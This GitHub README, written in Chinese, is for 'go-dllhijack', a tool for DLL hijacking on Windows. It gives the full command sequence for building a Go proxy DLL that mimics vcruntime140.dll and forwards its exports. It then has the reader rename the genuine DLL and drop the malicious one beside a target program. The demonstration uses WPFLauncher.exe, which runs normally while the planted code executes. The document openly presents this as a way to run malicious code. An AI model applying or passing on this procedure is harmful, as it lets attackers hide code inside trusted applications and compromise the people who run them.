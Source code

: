 # go-dllhijack
##基于go的简单劫持方法
在使用前请确保你系统上有GoLang python MinGW

以vcruntime140.dll为例
```sh
git clone https://github.com/famei/go-dllhijack
pip install pefile
python def.py vcruntime140.dll
```
会得到以下输出
![](https://raw.githubusercontent.com/famei/go-dllhijack/main/def.png)
###将输出的内容复制到win.def内
###新建一个bat脚本
```bat
dlltool --output-exp win.exp --input-def win.def
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -buildmode=c-shared -o vcruntime140.dll -ldflags="-extldflags=-Wl,{文件夹绝对路径}\win.exp -s -w"
```
###会得到一个vcruntime140.dll文件
将正常的vcruntime140.dll重命名为_vcruntime140.dll
将恶意的vcruntime140.dll和_vcruntime140.dl放在同一目录

这里用WPFLauncher.exe作为演示
双击WPFLauncher.exe程序正常运行 恶意代码被成功执行
![](https://raw.githubusercontent.com/famei/go-dllhijack/main/WPFLauncher.png)


